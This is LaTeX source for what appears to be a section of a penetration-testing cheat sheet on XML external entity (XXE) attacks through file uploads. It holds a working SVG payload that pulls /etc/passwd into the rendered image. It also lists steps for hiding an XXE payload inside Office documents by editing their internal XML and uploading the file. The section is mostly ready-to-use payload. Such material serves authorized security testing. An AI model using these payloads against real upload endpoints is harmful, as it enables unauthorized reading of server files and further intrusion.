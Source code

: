 \documentclass{article}
\begin{document}
\section{Phase 10: File Upload XXE}

\subsection{10.1 SVG XXE}

\begin{exploitbox}
\begin{lstlisting}[language=XML]
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ 
    <!ENTITY xxe SYSTEM "file:///etc/passwd" > 
]>
<svg width="128px" height="128px" 
     xmlns="http://www.w3.org/2000/svg" 
     xmlns:xlink="http://www.w3.org/1999/xlink" 
     version="1.1">
    <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
\end{lstlisting}
\end{exploitbox}

\subsection{10.2 Office Document XXE}

\begin{methodbox}
\begin{enumerate}
    \item Rename file to .zip
    \item Extract contents
    \item Modify \texttt{[Content\_Types].xml} or other XML files
    \item Add XXE payload
    \item Re-zip and rename back to original extension
    \item Upload file
\end{enumerate}
\end{methodbox}

\newpage
\section{Complete Testing Checklist}

\end{document}
